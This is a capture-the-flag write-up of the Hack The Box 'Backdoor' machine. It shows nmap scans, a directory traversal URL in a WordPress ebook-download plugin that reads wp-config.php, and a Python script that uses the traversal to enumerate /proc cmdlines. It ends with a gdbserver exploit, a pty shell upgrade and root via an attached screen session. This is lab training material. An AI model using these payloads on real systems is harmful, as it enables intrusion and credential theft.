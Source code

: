 # [Backdoor](https://app.hackthebox.com/machines/backdoor)

```bash
nmap -p- --min-rate 10000 10.10.11.125 -Pn
```
![Alt text](img/image.png)


After knowing (22,80,1337) ports are open, let's do greater nmap scan.
```bash
nmap -A -sC -sV -p22,80,1337 10.10.11.125 -Pn 
```

![Alt text](img/image-3.png)

While enumeration of application (port 80), I see that it is powered by `Wordpress`.

![Alt text](img/image-1.png)

So, I can look at plugins of wordpress site.

![Alt text](img/image-2.png)


I see that this application is vulnerable to [Directory Traversal](https://www.exploit-db.com/exploits/39575?source=post_page-----9340ac3709d6--------------------------------)


I just the browse the page .

```bash
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```

![Alt text](img/image-4.png)

But these credentials doesn't work anywhere.

I want to see what service running for port (1337), that's why I wrote this Python script.

```python
#!/usr/bin/python3
import requests, os
from concurrent.futures import ThreadPoolExecutor

url = "http://10.10.11.125"
os.system('seq 1 9999 > ids')
cont = open('ids','r').readlines()

def b(f):
	r = requests.get(url + '/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../../proc/' + f.strip() + '/cmdline')
	print(r.text.split('../')[24].split('cmdline')[1].split('<script>')[0])
with ThreadPoolExecutor(max_workers=50) as ex:
	ex.map(b,cont)
```

Then execute this script as below and read data.

```bash
python3 script.py > result
cat result | uniq
```

![Alt text](img/image-7.png)

I see that GDB server is running and find  [article](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit%2Fmulti%2Fgdb%2Fgdb_server_exec&source=post_page-----9340ac3709d6--------------------------------) to exploit GDB server


I got shell.

![Alt text](img/image-5.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

user.txt

![Alt text](img/image-6.png)


For privilege escalation, I just search SUID files via below command.

```bash
find / -perm -u=s -type f 2>/dev/null
```

![Alt text](img/image-8.png)


I just take `screen` binary from here.

```bash
export TERM=xterm
export SHELL=bash
screen -x root/root
```

root.txt

![Alt text](img/image-9.png)